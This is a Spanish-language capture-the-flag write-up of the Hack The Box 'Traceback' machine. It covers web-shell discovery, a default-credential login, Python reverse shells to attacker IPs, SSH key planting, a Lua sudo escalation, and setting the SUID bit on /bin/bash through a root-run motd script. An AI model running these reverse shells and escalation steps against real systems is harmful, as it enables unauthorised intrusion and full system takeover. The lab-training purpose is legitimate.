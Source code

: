 # TRACEBACK MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/1.PNG)

## INDEX

- [[#ESCANEO Y ENUMERACION|ESCANEO Y ENUMERACION]]
- [[#EXPLOTACION|EXPLOTACION]]
- [[#ELEVACION DE PRIVILEGIOS|ELEVACION DE PRIVILEGIOS]]


## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```
nmap -p- --open -T5 - v -n 10.10.10.181 -oG allPorts
```

La salida nos muesta el puerto 22 y 80 abiertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/2.PNG)

Vamos a realizar una enumeracion de los servicios en los puertos:

```
nmap -p22,5000 -sV -sC 10.10.10.181 -oN targeted
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/3.PNG)

vamos a revisar la pagina:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/4.PNG)

tiene un mensaje de que alguien dejo un backdoor, vamos a revisar el codigo fuente:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/5.PNG)

vemos un mensaje comentado: **Some of the best web shells that you might need**

si buscamos en google y vamos al primer enlace nos lleva a un repositorio de github:

[https://github.com/TheBinitGhimire/Web-Shells](https://github.com/TheBinitGhimire/Web-Shells)

vemos que son varias webshell, vamos a armar un diccionario con las webshells en PHP (ya que el servidor tiene un apache y al parecer interpreta PHP) y con ese diccionario vamos a fuzzear:

```bash
wfuzz -c --hw=195 --hc=404 -w dict.txt  http://10.10.10.181/FUZZ
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/6.PNG)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/7.PNG)

vemos que encontro la ruta **smevk.php** vamos a ver que hay ahi:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/8.PNG)

es un simple inicio de sesion, vamos a poner credenciales por defecto como **admin:admin** y vemos como ingresamos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/9.PNG)

si vamos al apartado de **console** vemos que se ejecutan comandos del sistema:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/10.PNG)

## EXPLOTACION

si interceptamos con burpsuite vemos como se envia el comando:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/11.PNG)

si modificamos el comando y nos spawneamos un reverse shell con python3 o bash y lo reenviamos por el repiter vemos que nos conectamos:

```bash
python3+-c+'import+socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'+&
```

ponemos al final **&** para que se ejecute esa tarea en segundo plano:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/12.PNG)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/13.PNG)

si vamos a la ruta **/home/webadmin** vemos la carpeta **.ssh** con un archivo **authorized_keys**, vamos a generar un par de claves ssh para poder ingresar por SSH con esa llave:

```bash
ssh-keygen
```

esto creara un par de claves **id_rsa y id_rsa.pub**

la llave **id_rsa** nos la pasamos a nuestro equipo por un servidor con python y le damos el sigueinte permiso:

```bash
chmod 600 id_rsa
```

la llave publuca **id_rsa.pub** su contenido la colocamos en authorized_keys:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/14.PNG)

y nos conectamos con la id_rsa:

```bash
ssh -i id_rsa webadmin@10.10.10.181
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/15.PNG)

## ELEVACION DE PRIVILEGIOS

si hacemos:

```bash
sudo -l
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/16.PNG)

podemos ejecutar como sudo a traves del usuario sysadmin un script

ademas vemos que sysadmin dejo una nota en **/home/webadmin/notes.txt**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/17.PNG)

entonces vamos a buscar que es **luvit** en google y tenemos el sigueinte resulta del primere enlace:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/18.PNG)

y podemos ejecutar scripts en lua:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/19.PNG)

ademas se tiene contenido en el archivo bash_history:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/20.PNG)

asi que vamos a poner el siguiente contenido en un archivo llamado **privesc.lua**:

```bash
require('os');os.execute("python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.13\",4343));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")' &")

```

ya sabemos como ejecutar gracias al bash history:

```bash
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
```

nos colocamos a la escucha y tenemos una conexion como sysadmin:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/21.PNG)

y podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/22.PNG)

ahora vamos a pasarnos el pypy64 para ver tareas cron que se esten ejecutando, lo ejecutamos dandole permisos de ejecucion primero:

```bash
chmod +x pspy64
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/23.PNG)

vemos que se ejecuta al cada 30 segundos (sleep 30) en la ruta **/etc/update-motd.d**, si vamos a esa ruta vemos los sigueintes archivos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/24.PNG)

vemos que tenemos permisos de escritura, vamos a ver el archivo **00-header**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/25.PNG)

es un script en bash y su contenido se parece a lo que sale en el banner cuando nos conectamos por ssh:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/26.PNG)

como el que lo ejecuta es root podemos agregar permisos suid para la **/bin/bash**

```bash
chmod 4755 /bin/bash
```

y vamos intentar conectarnos por ssh para que salga el banner y ejecute lo que colocamos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/26.PNG)

si vemos los permisos de **/bin/bash**:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/27.PNG)

ahora es cuestion de hacer:

```bash
/bin/bash -p
```

y ya somos root y podemos ver la flag;

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/TRACEBACK/images/28.PNG)
